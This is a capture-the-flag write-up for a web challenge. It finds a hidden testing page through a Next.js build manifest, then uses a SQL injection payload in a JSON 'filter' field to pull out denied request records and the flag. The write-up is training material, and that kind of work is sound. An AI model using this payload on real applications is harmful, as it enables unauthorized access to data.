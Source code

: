 ## Corporate Life 1
### Problem Description
The Request Management App is used to view all pending requests for each user. It’s a pretty basic website, though I heard they were working on something new.

Anyway, did you know that one of the disgruntled employees shared some company secrets on the Requests Management App, but it's status was set *denied* before I could see it. Please find out what it was and spill the tea!

### Solution
To begin, we open Burp Suite and examine the network traffic. Upon loading the webpage, we observe a GET request:

```bash
GET /_next/static/bkat3_n9dfvE_URrWvN1g/_buildManifest.js HTTP/1.1
```

Inspecting the response, we find an important hint:

```bash
HTTP/1.1 200 OK
Cache-Control: public, max-age=31536000, immutable
...
self.__BUILD_MANIFEST=function(e,r,s){return{..."/v2-testing":["static/chunks/pages/v2-testing-fb612b495bb99203.js"],sortedPages:["/","/_app","/_error","/v2-testing"]}}(0,0,0),self.__BUILD_MANIFEST_CB&&self.__BUILD_MANIFEST_CB();
```

The mention of `/v2-testing` suggests a new endpoint to explore.


Navigating to `http://kashictf.iitbhucybersec.in:port_number/v2-testing`, we observe a POST request being made:

```bash
POST /api/list-v2 HTTP/1.1
Host: kashictf.iitbhucybersec.in:3867
Content-Length: 13
Content-Type: application/json
Referer: http://kashictf.iitbhucybersec.in:3867/v2-testing

{"filter":""}
```

The `filter` parameter appears to be user-controlled, making it a potential target for SQL Injection.


And this is the key to our solution! Since our objective is to retrieve denied requests, we inject an SQL payload into the `filter` parameter:

```bash
{"filter":"' OR status='denied' --"}
```

Upon sending the modified request, the server returns a list of denied requests. One of these contains the leaked company secrets, revealing the flag!



